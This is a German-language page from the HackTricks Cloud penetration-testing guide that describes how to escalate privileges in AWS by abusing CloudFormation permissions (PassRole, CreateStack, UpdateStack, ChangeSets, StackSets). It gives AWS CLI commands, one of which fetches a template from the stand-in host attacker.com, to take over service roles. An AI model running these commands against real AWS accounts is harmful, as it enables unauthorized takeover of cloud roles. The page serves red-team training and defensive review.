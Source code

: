 # AWS - Cloudformation Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## cloudformation

Für weitere Informationen über cloudformation siehe:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Ein Angreifer mit diesen Berechtigungen **kann Privilegien eskalieren**, indem er einen **CloudFormation-Stack** mit einer benutzerdefinierten Vorlage erstellt, die auf seinem Server gehostet wird, um **Aktionen unter den Berechtigungen einer bestimmten Rolle auszuführen:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
In der folgenden Seite haben Sie ein **Exploitation-Beispiel** mit der zusätzlichen Berechtigung **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potenzielle Auswirkungen:** Privesc auf die angegebene Cloudformation-Service-Rolle.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In diesem Fall können Sie eine **bestehende Cloudformation-Stack** ausnutzen, um sie zu aktualisieren und Privilegien wie im vorherigen Szenario zu eskalieren:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst die `UpdateStack` Berechtigung** für einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc auf die angegebene cloudformation-Dienstrolle.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Wenn Sie diese Berechtigung haben, aber **keine `iam:PassRole`**, können Sie dennoch **die verwendeten Stacks aktualisieren** und die **IAM-Rollen, die bereits angehängt sind, missbrauchen**. Überprüfen Sie den vorherigen Abschnitt für ein Exploit-Beispiel (geben Sie einfach keine Rolle in der Aktualisierung an).

Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst die `UpdateStack` Berechtigung** für einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc auf die bereits angehängte cloudformation-Dienstrolle.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ein Angreifer mit Berechtigungen, um **eine Rolle zu übergeben und ein ChangeSet zu erstellen & auszuführen**, kann **einen neuen cloudformation-Stack erstellen/aktualisieren und die cloudformation-Dienstrollen missbrauchen**, genau wie bei CreateStack oder UpdateStack.

Der folgende Exploit ist eine **Variation des**[ **CreateStack Exploits**](./#iam-passrole-cloudformation-createstack), die die **ChangeSet-Berechtigungen** verwendet, um einen Stack zu erstellen.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst `ChangeSet` Berechtigungen** über einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc zu cloudformation Dienstrollen.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Dies ist wie die vorherige Methode, ohne **IAM-Rollen** zu übergeben, sodass Sie einfach **bereits angehängte nutzen** können, ändern Sie einfach den Parameter:
```
--change-set-type UPDATE
```
**Potenzielle Auswirkungen:** Privesc auf die bereits angehängte Cloudformation-Service-Rolle.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ein Angreifer könnte diese Berechtigungen missbrauchen, um StackSets zu erstellen/aktualisieren und willkürliche Cloudformation-Rollen auszunutzen.

**Potenzielle Auswirkungen:** Privesc auf Cloudformation-Service-Rollen.

### `cloudformation:UpdateStackSet`

Ein Angreifer könnte diese Berechtigung ohne die passRole-Berechtigung missbrauchen, um StackSets zu aktualisieren und die angehängten Cloudformation-Rollen auszunutzen.

**Potenzielle Auswirkungen:** Privesc auf die angehängten Cloudformation-Rollen.

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
